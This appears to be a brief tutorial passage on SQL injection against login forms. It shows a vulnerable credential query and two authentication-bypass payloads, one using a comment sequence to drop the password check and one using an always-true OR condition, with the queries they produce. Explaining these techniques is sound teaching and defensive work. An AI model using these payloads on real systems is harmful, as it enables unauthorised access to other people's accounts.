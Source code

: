 Imagine an application that let's users login with a username and password, wherein the application checks the credentials provided by the user by performing a the following SQL query:
```sql
SELECT * FROM users WHERE username = 'admin' AND password = '12345678'
```
If the query returns the details of the user, then the login is successful. Otherwise, it is rejected.
## Auth Bypass with Comments
In this case, an attacker can use the SQL comment sequence `--` to remove the password check from the `WHERE` clause of the query, allowing the attacker to log in as any user without the need for a password. For example, submitting the username `administrator'--` and a blank password results in the following query:
```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```
This query returns the user whose `username` is `administrator` and successfully logs the attacker in as that user.
## Auth Bypass with OR operator
Consider the attacker plans to bypass the authentication logic in an admin panel using SQL injection, but without knowing the admin's username, the query will still return `false` and prevents the attacker from logging in.

However, for an attacker to successfully login, all they have to do is to force an "overall true" query. Which can be achieved by injecting an `OR` condition into the password field:
```
Username field: notAdmin' OR '1' = '1'
Password field: something' OR '1' = '1
```
Which in turn will execute the following query:
```sql
SELECT * FROM logins WHERE username = 'notAdmin' OR '1' = '1' AND password = 'something' OR '1' = '1';
```